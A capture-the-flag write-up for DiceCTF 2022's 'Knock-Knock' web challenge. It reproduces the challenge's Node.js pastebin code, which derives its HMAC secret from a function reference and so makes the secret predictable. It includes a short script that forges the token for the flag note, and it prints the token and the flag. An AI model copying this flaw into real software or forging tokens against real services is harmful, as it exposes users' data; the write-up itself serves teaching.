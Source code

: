 ```yaml
---
layout: single
title: Knonk-Knock - DiceCTF 2022 [Web]
excerpt: "Knock knock? Who’s there? Another pastebin!!"
date: 2022-2-07
classes: wide
header:
  teaser: /assets/images/dice_ctf_2022/dice_tea.png
  teaser_home_page: true
  icon: /assets/images/dice_ctf_2022/dice.webp
categories:
  - DiceCTF
  - CTF Jeo
tags:  
  - CTF
---
```


Knock knock? Who's there? Another pastebin!!

## Code Review | index.js

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```

Let's take it from beginning

#### Where flag is stored?
```js
const db = new Database();
db.createNote({ data: process.env.FLAG });
```
When the server starts a new Database object is created and also a note which contains the flag.
The flag is stored at `notes[0]` because `this.notes = [];` is an empty array consequently the flag will be stored at `notes[0]`.

#### Explain Constructor & createNote
```js
constructor() {
    this.notes = []; 
    this.secret = `secret-${crypto.randomUUID}`;
  }
```
```js 
  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }
```
At constructor we have an array notes and a secret key. At secret variable the secret key starts with `secret-` but the problem is ${crypto.randomUUID}. The UUID part does not use a random uuid as the secret but the function itself i.e. the secret value is known.


## Final Exploit
```js
const crypto = require('crypto');

function generateToken(id,secret) { 
    return crypto
      .createHmac('sha256', secret) 
      .update(id.toString()) 
      .digest('hex'); 
  }

var id = 0; // Flag id
var secret = `secret-${crypto.randomUUID}`;

console.log(secret);
console.log(generateToken(id,secret));

```

Now, run the nodejs script 

![](https://files.bitwarriors.net/images/knock-knock/knock.PNG)

and use the token  7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264 to grab the flag dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}.

![](https://files.bitwarriors.net/images/knock-knock/knock1.PNG)


